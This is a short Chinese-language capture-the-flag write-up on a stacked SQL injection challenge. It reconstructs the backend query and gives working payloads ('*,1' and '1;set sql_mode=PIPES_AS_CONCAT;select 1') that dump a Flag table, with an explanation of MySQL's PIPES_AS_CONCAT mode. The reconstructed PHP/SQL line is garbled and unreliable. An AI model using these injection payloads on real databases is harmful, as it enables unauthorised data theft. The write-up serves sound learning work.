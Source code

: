 #SQL 注入 #堆叠注入

这道题目需要我们去对后端语句进行猜测

输入的内容为\*,1

内置的 sql 语句为

```sql
sql = "select".sql = "select ".sql="select".post['query']."||flag from Flag";
```

如果$post['query']的数据为*,1，sql 语句就变成了`select *,1||flag from Flag`，也就是`select \*,1 from Flag`，也就是直接查询出了 Flag 表中的所有内容

官方给的 payload 是 1;set sql_mode=PIPES_AS_CONCAT;select 1

拼接一下就是 select 1;set sql_mode=PIPES_AS_CONCAT;select 1||flag from Flag
关于 `sql_mode` : 它定义了 MySQL 应支持的 SQL 语法，以及应该在数据上执行何种确认检查，其中的 `PIPES_AS_CONCAT` 将 `||` 视为字符串的连接操作符而非 “或” 运算符
